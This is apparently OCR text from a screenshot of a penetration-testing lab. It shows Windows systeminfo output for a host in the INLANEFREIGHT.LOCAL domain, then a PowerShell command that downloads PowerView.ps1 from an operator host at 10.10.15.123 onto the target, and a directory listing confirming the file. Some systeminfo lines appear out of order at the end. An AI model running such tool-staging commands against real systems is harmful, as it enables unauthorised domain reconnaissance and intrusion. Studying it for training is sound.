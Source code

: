 Page File Location(s): C:\pagefile.sys

Domain: INLANEFREIGHT.LOCAL

Logon Server: N/A

Hotfix(s): 2 Hotfix(s) Installed.

[01]: KB4578966

[02]: KB4464455

Network Card(s): 2 NIC(s) Installed.

[01]: vmxnet3 Ethernet Adapter

Connection Name: Ethernet0

DHCP Enabled: Yes

DHCP Server: 10.129.0.1

IP address(es)

[01]: 10.129.139.169

[02]: fe80::208f:25d9:3c7c:d424

[03]: dead:beef::208f:25d9:3c7c:d424

[04]: dead:beef::11

[02]: vmxnet3 Ethernet Adapter

Connection Name: Ethernet1

DHCP Enabled: No

IP address(es)

[01]: 172.16.6.100

[02]: fe80::f8c8:c134:4fe9:c4b0

Hyper-V Requirements: A hypervisor has been detected. Features required for Hyper-V will not be displayed.

​

PS C:\> (New-Object Net.WebClient).DownloadFile('http://10.10.15.123:8000/PowerView.ps1','C:\PowerView.ps1')

PS C:\> dir

​

Directory: C:\

​

Mode LastWriteTime Length Name

---- ------------- ------ ----

d----- 3/30/2022 2:38 AM inetpub

d----- 9/15/2018 12:12 AM PerfLogs

d-r--- 4/11/2022 5:54 PM Program Files

d----- 3/30/2022 2:37 AM Program Files (x86)

d-r--- 4/11/2022 5:26 PM Users

d----- 4/11/2022 7:38 PM Windows

-a---- 3/7/2023 1:44 AM 770279 PowerView.ps1


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz